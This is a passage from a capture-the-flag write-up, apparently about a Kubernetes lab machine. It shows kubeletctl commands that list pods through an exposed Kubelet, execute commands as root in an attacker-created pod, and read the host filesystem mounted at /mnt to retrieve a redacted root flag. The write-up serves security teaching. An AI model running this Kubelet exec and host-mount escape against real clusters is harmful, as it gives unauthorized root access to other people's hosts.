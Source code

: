 

It is visible from the Kubelet as well:



    oxdf@hacky$ kubeletctl pods -s 10.10.11.133
    ┌────────────────────────────────────────────────────────────────────────────────┐
    │                                Pods from Kubelet                               │
    ├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
    │   │ POD                                │ NAMESPACE   │ CONTAINERS              │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 1 │ storage-provisioner                │ kube-system │ storage-provisioner     │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 2 │ coredns-78fcd69978-7dhjv           │ kube-system │ coredns                 │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 3 │ nginx                              │ default     │ nginx                   │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    │ 4 │ 0xdf-pod                           │ default     │ 0xdf-pod                │
    │   │                                    │             │                         │
    ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
    ...[snip]...



#### Execute In Pod

Execution via Kubelet works just like it did in the original nginx
container:



    oxdf@hacky$ kubeletctl exec "id" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    uid=0(root) gid=0(root) groups=0(root)



But this time the host file system is mounted at `/mnt`:



    oxdf@hacky$ kubeletctl exec "ls /mnt/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    bin   home            lib32       media  root  sys  vmlinuz
    boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
    dev   initrd.img.old  libx32      opt    sbin  usr
    etc   lib             lost+found  proc   srv   var



I can read `root.txt`:



    oxdf@hacky$ kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
    98c251ea************************



#### Shell Fails
